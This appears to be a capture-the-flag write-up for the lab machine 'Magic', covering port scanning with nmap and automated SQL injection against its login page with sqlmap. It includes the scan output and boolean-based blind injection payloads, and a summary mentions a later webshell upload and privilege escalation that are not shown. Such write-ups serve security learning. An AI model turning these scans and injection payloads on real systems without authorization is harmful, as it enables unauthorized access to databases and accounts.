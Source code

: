 ## Overview

**TL;DR**: SQLi, webshell upload with bypass, pe via SUID tool using unsecured
PATH.

Install tools used in this WU on BlackArch Linux:

```
pacman -S nmap sqlmap haiti weevely metasploit pwncat
```

## Network enumeration

With a [nmap][nmap] scan be can see only 2 open ports: 80 & 22.

```
# Nmap 7.80 scan initiated Fri Jun 12 13:15:34 2020 as: nmap -sSVC -p- -oA nmap_full 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 12 13:16:00 2020 -- 1 IP address (1 host up) scanned in 25.72 seconds
```

## HTTP Enumeration

Quickly we found a few pages:

- http://10.10.10.185/index.php
- http://10.10.10.185/login.php
- http://10.10.10.185/upload.php (authenticated)

On the login page we can see we have a different behavior when we put of quote
in the username or password and when not. So let's try a SQLi.

## SQL Injection

I used [sqlmap][sqlmap] to quickly identify the injection technique and automate the process.

```
$ sqlmap -u http://10.10.10.185/login.php --method POST --data 'username=admin&password=password' --level 3 --risk 3
...
sqlmap identified the following injection point(s) with a total of 628 HTTP(s) requests:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=admin&password=-2142' OR 8380=8380-- HhVJ

Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-5412' OR 2974=2974-- buTK&password=password
---
```